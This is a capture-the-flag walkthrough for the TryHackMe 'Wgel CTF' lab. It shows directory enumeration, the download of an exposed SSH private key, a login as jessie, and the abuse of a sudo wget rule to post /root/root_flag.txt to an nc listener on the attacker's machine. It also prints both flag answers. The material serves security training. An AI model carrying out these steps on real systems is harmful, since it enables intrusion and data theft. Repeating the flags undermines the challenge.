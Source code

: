# Wgel CTF

{% embed url="https://tryhackme.com/room/wgelctf" %}

##

## Task 1: Wgel CTF

<figure><img src="../../.gitbook/assets/1 (126).png" alt=""><figcaption></figcaption></figure>

### Question

> User flag

* Let's scan the target using `nmap`.

```
$ nmap -sC -sV 10.10.137.42
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-07 10:58 IST
Nmap scan report for 10.10.137.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.74 seconds
```

* There are two open ports:

|    |      |
| -- | ---- |
| 22 | ssh  |
| 80 | http |

* Let's check the `/index.html` page.

<figure><img src="../../.gitbook/assets/2 (117).png" alt=""><figcaption></figcaption></figure>

* We can view the page source using `CTRL+U`.

<figure><img src="../../.gitbook/assets/3 (99).png" alt=""><figcaption></figcaption></figure>

* Let's scan all the directories using `gobuster`.

```
$ gobuster dir -u http://10.10.137.42 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.137.42/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

* We can visit the `/sitemap` page using our browser.
* The webpage made my browser crash as soon as I visited it.
* We can search one layer deeper.

```
$ gobuster dir -u http://10.10.137.42/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.137.42/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.10.137.42/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.137.42/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.137.42/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.137.42/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

* We can now visit `/sitemap/.ssh` using our browser.&#x20;

<figure><img src="../../.gitbook/assets/4 (80).png" alt=""><figcaption></figcaption></figure>

* Let's download the `id_rsa` file using `wget`.

```
$ wget http://10.10.137.42/sitemap/.ssh/id_rsa
--2023-12-07 11:47:42--  http://10.10.137.42/sitemap/.ssh/id_rsa
Connecting to 10.10.137.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘id_rsa’

id_rsa                                                     100%[========================================================================================================================================>]   1.64K  --.-KB/s    in 0.1s    

2023-12-07 11:47:43 (13.6 KB/s) - ‘id_rsa’ saved [1675/1675]
```

* Let's change the permissions on the `id_rsa` file.

```
$ sudo chmod 700 id_rsa
```

* Now we can login as `jessie`.

```
$ ssh -i id_rsa jessie@10.10.137.42
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```

* Let's read the user flag.

```
jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```

### Answer

```
057c67131c3d5e42dd5cd3075b198ff6
```

###

### Root flag

* Let's check the `sudo` permissions `jessie` has.

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

* So we can post a file to our machine as `jessie` without using a password.
* Let's find the file the we need to post.
* Let's start a listener using `nc`.

```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```

* Let's send the file now.

```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.48.138:9999
--2023-12-07 08:58:16--  http://10.17.48.138:9999/
Connecting to 10.17.48.138:9999... connected.
HTTP request sent, awaiting response... 
```

* We can go back to check the listener.

```
$ nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.137.42] 57776
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.17.48.138:9999
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```

### Answer

```
b1b968b37519ad1daa6408188649263d
```
